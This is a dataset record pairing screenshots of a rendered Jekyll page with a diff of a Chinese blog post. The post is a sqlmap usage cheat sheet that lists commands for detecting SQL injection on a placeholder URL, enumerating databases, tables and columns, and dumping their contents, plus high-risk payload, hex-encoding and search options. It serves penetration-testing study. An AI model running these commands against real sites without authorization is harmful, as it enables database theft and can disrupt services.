

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-12-06-sqlmap.md, in a window 1280 px wide and 1400 px high, scrolled down 395 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 1664 px from its top, so only the background shows below that; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
update sqlmap.md

````diff
--- a/_posts/2020-12-06-sqlmap.md
+++ b/_posts/2020-12-06-sqlmap.md
@@ -14,14 +14,96 @@ tags:
     - SQL注入
 ---
 
-## **0x01 --technique**
+
+
+## 0x00 常用指令
+
+- SQL注入测试，并且按照默认自动完成用户交互。
+
+```
+sqlmap -u http://xxx.com/xxx.php?id=1 --batch
+```
+
+- 获取当前数据库
+
+```
+sqlmap -u http://xxx.com/xxx.php?id=1 --batch --current-db
+```
+
+- 获取所有数据库
+
+```
+sqlmap -u http://xxx.com/xxx.php?id=1 --batch --dbs
+```
+
+- 指定数据库类型为MySQL，获取表名
+
+```
+sqlmap -u http://xxx.com/xxx.php?id=1 --batch --dbms "MySQL" -D [数据库名] --tables
+```
+
+- 指定库名、表名，获取列名
+
+```
+sqlmap -u http://xxx.com/xxx.php?id=1 --batch --dbms "MySQL" -D [数据库名] -T [表名] --columns
+```
+
+- 指定库名、表名、列名，获取数据
+
+```
+sqlmap -u http://xxx.com/xxx.php?id=1 --batch --dbms "MySQL" -D [数据库名] -T [表名] -C "[列名1],[列名2]" --dump
+```
+
+- 将HTTP请求内容保存在request.txt文件中，从文件打开，指定使用布尔、时间盲注进行测试
+
+```
+sqlmap -r request.txt --batch --current-db --technique BT
+```
+
+- 使用最高级别的Payload测试，并且使用一些更具风险（可能影响网站）的Payload，开启线程最大，即10个线程进行测试
+
+```
+sqlmap -u http://xxx.com/xxx.php?id=1 --batch --current-db --level 5 --risk 3 --threads 10
+```
+
+
+
+## 0x01 --technique
 
 sqlmap设置具体SQL注入技术
 
 - --technique T   指明基于时间的盲注（Time-based blind）
 - --technique B   指定基于布尔的盲注（Boolean-based blind）
-- --technique BT  指定基于时间和布尔（其实就是叠加使用，其他同理）
 - --technique E   指定报错注入（Error-based）
 - --technique U  指定Union查询注入（Union query-based）
 - --technique S   指定堆叠注入（Stacked queries）
 - --technique Q  指定内联查询注入（Inline queries）
+- --technique BT  指定基于时间和布尔（其实就是叠加使用，其他同理）
+
+
+
+## 0x02 --hex
+
+对注入的参数进行十六进制编码。
+
+```
+sqlmap -u "http://xxx" --hex
+```
+
+
+
+## 0x03 --search
+
+可以搜索数据库名，在所有数据库中搜索表名，在所有数据库的所有表中搜索列名。
+
+参数“–search”要和下列参数之一配合使用：
+
+- -C：后跟以逗号分隔的列名，在整个数据库管理系统中搜索
+- -T：后跟以逗号分隔的表名，在整个数据库管理系统中搜索
+- -D：后跟以逗号分隔的库名，在整个数据库管理系统中搜索
+
+在搜索时，Sqlmap会询问用户进行精确搜索还是包含搜索。
+
+默认为包含搜索，即搜索的字符串包含于结果中就认为命中。
+
+精确搜索要求搜索的字符串与结果完全相等。
````
